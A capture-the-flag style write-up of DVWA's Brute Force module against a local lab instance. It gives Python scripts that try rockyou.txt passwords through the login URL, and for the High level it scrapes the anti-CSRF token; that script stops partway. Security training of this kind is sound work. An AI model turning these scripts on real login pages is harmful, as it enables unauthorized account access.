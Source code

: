 ```yaml
---
title: Solutions for DVWA
date: 2023-03-04
tags: [ctf,guidance]
---
```


# Brute Force
## Low and Medium
In the `Brute Force Low` level we find that the password is being shared in the URL of the website, like,

http://127.0.0.1/dvwa/vulnerabilities/brute/?username=admin&password=123456&Login=Login#

We can brute force the different URLs using this code and the rockyou.txt wordlist.

If the password is wrong, I will get, 
`Username and/or password incorrect.`
on the screen.

```py
import requests
def get_url(username,password):
    return f"http://127.0.0.1/dvwa/vulnerabilities/brute/?username={username}&password={password}&Login=Login#"

username = input("Enter Username : ")

COOKIES = {
    "PHPSESSID":"pf9kipp16vs54366mr21smurse",
    "security":"high"
}
with open("rockyou.txt") as f:
    while True:
        p = f.readline().strip()
        url = get_url(username,p)
        r = requests.get(url,cookies=COOKIES)
        print("Checking ", p)
        if 'incorrect' not in r.text:
            print(f"Found password for {username} = {p}")
            break
```
## High
Use the following code for High level
```py
import requests
def get_url(username,password,token):
    return f"http://127.0.0.1/dvwa/vulnerabilities/brute/?username={username}&password={password}&user_token={token}&Login=submit#"
username = input("Enter Username : ")
COOKIES = {
    "PHPSESSID":"km7qua1eth40r643ggc8ll6cbp",
    "security":"high"
}
passwords = open("rockyou.txt","r")
while True:
    session = requests.Session()
    r = session.get("http://127.0.0.1/dvwa/vulnerabilities/brute/index.php",cookies=COOKIES)
    body = r.text.split(" ")
    token = body[body.index("name='user_token'")+1].split("=")[1][1:-1]

```